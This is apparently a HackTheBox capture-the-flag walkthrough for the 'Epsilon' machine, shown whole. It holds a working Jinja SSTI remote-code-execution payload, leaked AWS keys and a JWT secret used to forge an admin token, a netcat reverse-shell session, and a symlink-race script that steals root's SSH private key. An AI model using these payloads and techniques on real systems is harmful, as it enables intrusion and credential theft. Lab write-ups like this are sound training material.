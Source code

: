# Epsilon

---

## Enum

- nmap TCP scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-git: 
|   10.10.11.134:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Updating Tracking API  # Please enter the commit message for...
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.41 (Ubuntu)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
|_http-title: Costume Shop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- git repo found on port 80 `/.git`
- `cloud` subdomain found on port 80
- dumped git repo `git-dumper`

```
-    aws_access_key_id='AQLA5M37BDN6FJP76TDC',
-    aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A'
```

- Interesting functions methods:

1. get-account-settings
2. list-functions
3. get-function

- got `lambda_function.py`, -> `http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code`

```py
secret='RrXCv`mrNe!K!4+5`wYq'
``` 

- used this secret for jwt
- `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4`
- created cookie with `auth` name and value of jwt token, now /home and other dirs are accessible
- SSTI on order page
- RCE Payload: `{{''.__class__.__mro__[1].__subclasses__()[389]('id', shell=True, stdout=-1).communicate()[0].strip()}}` on `custume` parameter
- got revshell, as user tom

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.134] 52022
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$ whoami
whoami
tom
tom@epsilon:/var/www/app$ which python3
which python3
/usr/bin/python3
tom@epsilon:/var/www/app$ which python
which python
tom@epsilon:/var/www/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
tom@epsilon:/var/www/app$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1337

tom@epsilon:/var/www/app$ stty rows 39 cols 157
tom@epsilon:/var/www/app$ export TERM=xterm-256color
tom@epsilon:/var/www/app$
```

---

## Privilege Escalation

- linpeas interesting results:

```
Vulnerable to CVE-2021-4034
Vulnerable to CVE-2021-3560

tcp        0      0 127.0.0.1:44117         0.0.0.0:*               LISTEN      -                                                                            
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      993/python3         
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 

PermitRootLogin yes
ChallengeResponseAuthentication no
UsePAM yes
PasswordAuthentication yes
```

- Found a task that runs periodically as `root`, using `pspy`:

```
2022/12/03 08:46:25 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/12/03 08:47:01 CMD: UID=0    PID=39465  | /usr/sbin/CRON -f 
2022/12/03 08:47:01 CMD: UID=0    PID=39467  | /bin/bash /usr/bin/backup.sh 
2022/12/03 08:47:01 CMD: UID=0    PID=39466  | /bin/sh -c /usr/bin/backup.sh 
2022/12/03 08:47:01 CMD: UID=0    PID=39470  | /usr/bin/tar -cvf /opt/backups/888007109.tar /var/www/app/ 
2022/12/03 08:47:01 CMD: UID=0    PID=39473  | sleep 5
```

- `Backup.sh`:

```bash
#!/bin/bash

file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

1. Clear `/opt/backups` directory.
2. Backup the files from /var/www/app folder and place them in `/opt/backups/<int>` format
3. Generate `sha1` of the tar file and save in `checksum` file and give all permissions to this file
4. sleep for 5 seconds
4. Then tar the previous tar file and `checksum` file and move them to `/var/backups/web_backups/` directory
5. Clears `/opt/backups` again.

```bash
┌──(kali㉿kali)-[~]
└─$ tar --help | grep "\-h" -A1
  -h, --dereference          follow symlinks; archive and dump the files they
                             point to
```

- `-h` in the second `tar` command which fetches the the content of symlinks and does the compression
- To privesc, I'll keep checking for the file `checksum` gets created, then place symlink to `SSH` key of the root user
- The file will be deleted after 5 seconds, so this has to be in a loop
- Wrote the bash script `pwn.sh`:

- To privesc:

1. Keep checking for `checksum` to exist
2. Once found: update the symlink
3. Read root SSH key from `checksum`


```bash
#!/bin/bash
if [ -e /opt/backups/checksum ]; then
	rm -f /opt/backups/checksup
	echo 'CHECKSUM DELETED!'
	ln -sf /root/.ssh/id_rsa /opt/backups/checksum
	echo 'FILE PLANTED.'
fi
```

- Run this in a while loop, when the file gets updated -> check the latest `.tar` file:

```bash
cp /opt/backups/*.tar . && tar -xfv *.tar && cat /opt/backups/checksum 
```